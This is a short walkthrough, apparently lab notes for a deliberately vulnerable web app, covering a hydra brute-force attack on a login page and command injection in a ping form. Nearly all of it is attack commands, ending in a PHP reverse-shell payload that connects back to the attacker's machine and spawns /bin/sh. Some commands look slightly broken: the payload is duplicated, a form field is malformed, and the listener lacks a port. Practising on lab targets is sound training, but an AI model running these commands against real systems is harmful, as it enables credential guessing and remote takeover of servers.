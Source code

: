 ## Brute Force the login page



MACHINE_IP/login.php
` hydra -l admin -P <path/to/file> MACHINE_IP http-post-form "/:username=^USER^&^password=PASS^:F='Login failed'" -V `


## Command Injection

##### Vulnerability Level: 

[![css progressbar](https://readme-components.vercel.app/api?component=linearprogress&skill=Low&value=25)](https://github.com/harish-sethuraman/readme-components)

1. Testing for vulnerability by listing the directories
` 8.8.8.8;ls `

2. Gaining a Reverse Shell
    - Open a netcat listener in Kali terminal
    ` nc -lnvp  `

    - Past this code in the 'Enter an IP address: ' form. Make sure to prepend an IP address for the ping command to run and the reverse shell to work.
    `8.8.8.8;php -r '$sock=fsockopen("<KaliMachineIP>",4242);exec("/bin/sh -i <&3 >&3 2>&3");' php -r '$sock=fsockopen("<kaliMACHINEIP>",4242);exec("/bin/sh -i <&3 >&3 2>&3");' `
